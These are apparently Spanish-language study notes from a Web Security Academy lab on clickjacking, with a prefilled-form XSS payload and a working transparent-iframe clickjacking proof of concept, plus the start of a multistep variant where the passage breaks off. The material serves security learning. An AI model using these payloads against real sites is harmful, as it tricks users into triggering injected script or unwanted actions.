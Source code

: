 ![[Pasted image 20230208214640.png]]

Es posible prellenar el formulario:

```bash
https://0a3c000d032aae40c007095800d700d8.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test
```

podemos crear la siguiente PoC donde prellenamos el campo **name** con un payload XSS y con el ataque clickjacking hacemos que el usuario active el payload XSS:

```bash
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:620;
		left:70;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a3c000d032aae40c007095800d700d8.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

![[Pasted image 20230208220026.png]]

>[!note]
>Colocamos `#feedbackResult` al final de la URL para que baje un poco el scroll y se acomo el boton de nuestra PoC.

![[Pasted image 20230208220007.png]]


### CLICKJACKING MULTISTEP

Puede que una pagina realice una accion y ademas pida confirmacion para realizarla (son 2 acciones)

![[Pasted image 20230208222514.png]]

![[Pasted image 20230208222535.png]]

podemos crear una PoC con varios botones y demas para que realice diferentes acciones:

```bash
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}

	#btn1 {
		position:absolute;
		top:500px;
		left:40px;
```